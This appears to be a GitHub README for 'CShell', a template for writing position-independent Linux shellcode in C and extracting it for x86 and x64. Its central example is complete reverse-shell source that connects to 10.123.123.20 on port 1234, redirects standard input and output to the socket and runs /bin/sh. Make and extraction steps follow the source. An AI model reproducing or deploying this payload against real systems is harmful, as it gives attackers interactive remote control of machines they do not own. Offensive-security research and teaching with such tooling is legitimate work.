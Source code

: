 # CShell
-------
### "portable" and rapid Linux shellcode development
Writing platform-specific shellcode is a notoriously tedious feat and requires a working understanding of low level assembly code. Rather than learning assembly syntax for x86, x64, ARM, and whatever god forksaken architecture you're targetting, it'd be a hell of a lot easier to simply write your entire payload in C, compile it with a standard C compiler, extract the `.text` section of the binary, and execute it as positionally independent shellcode.


### Warning
CShell is hugely incomplete... like seriously, only a tiny portion of the syscalls have been implemented for a small number of systems. There are a lot of potential caveats that need to be handled in different platforms, and I'm simply not that diverse of a developer when it comes to low level applications. I'm only providing the general idea and a basic template. Any PRs are more than welcome.


#### Notes:

 - Compiler size optimizations (such as GCC's `-Os`) may re-order functions (including `_start`) so if you use these flags, you may need to manually add a `jmp <offset>` to the beginning of your payload in order to get to the `_start` function.
 - The Makefile provided will compile with `-Os` optimizations excluding function and symbol re-alignment.
 - Your entry point should be called `_start`, not `main`, and may accept as many parameters of any type as you'd like, albeit an uncommon practice with shellcode.
 - You may, of course, utilize struct definitions, unions, enums, and preprocessor constants inside your code, but because it is compiled with `-nostdlib`, you must create your own functions for standard library functions `memset`/`memcpy` can be trivially implemented.
 
 
 ### What's the use case
 
Writing shellcode to perform a specific task can be tedious when targetting multiple platforms. Take, for instance, the simplest reverse TCP shell comprised of creating a socket, connecting to a remote address/port, using `dup2` to copy the `stdin`, `stdout`, and `stderr` file descriptors to the socket, and executing `/bin/sh` for an interactive shell. We could write three separate 


### Step 1: Write your payload

    #include "cshell.h"

    #define HTONS(A) ((((uint16_t)(A) & 0xff00) >> 8) | (((uint16_t)(A) & 0x00ff) << 8))
    #define OCTETS(a, b, c, d) (uint32_t)((d << 24) | (c << 16) | (b << 8) | (a))

    /* An example CShell payload */

    int _start();

    int _start()
    {
        int sockfd, i;
        unsigned char filename[] = {'/', 'b', 'i', 'n', '/', 's', 'h', '\0'};
        ssize_t status, err;
        struct in_addr sock_addr;
        struct sockaddr_in sock_srv;

        status = cs_socket(AF_INET, SOCK_STREAM, 0);
        if(status < 0)
        {
            goto cleanup;
        }
        sockfd = status;

        sock_addr.s_addr = OCTETS(10, 123, 123, 20);

        sock_srv.sin_family = AF_INET;
        sock_srv.sin_port = HTONS(1234);
        sock_srv.sin_addr = sock_addr;

        status = cs_connect(sockfd, &sock_srv, sizeof(sock_srv));
        if(status < 0)
        {
            goto cleanup;
        }

        for(i = 0; i <= 2; ++i)
        {
            cs_dup2(sockfd, i);
        }

        cs_execve(filename, NULL, NULL);
        status = 0;

    close_cleanup:
        cs_close(sockfd);

    cleanup:
        if(status < 0)
        {
            err = cs_err(status);
        }
        else
        {
            err = 0;
        }

        cs_exit(err);
    }

### Step 2: Compile your payload

Assuming the above source file is saved as `cshell.c`, you can ue the `Makefile` inside the project.

    make x86 && make x64
    
### Step 3: Extract the .text section

    ./gettext.sh cshell-x86
    ./gettext.sh cshell-x64

The output can then be saved in `runshellcode.c` (be sure to compile it with -m32 when using x86) in order to test execution.
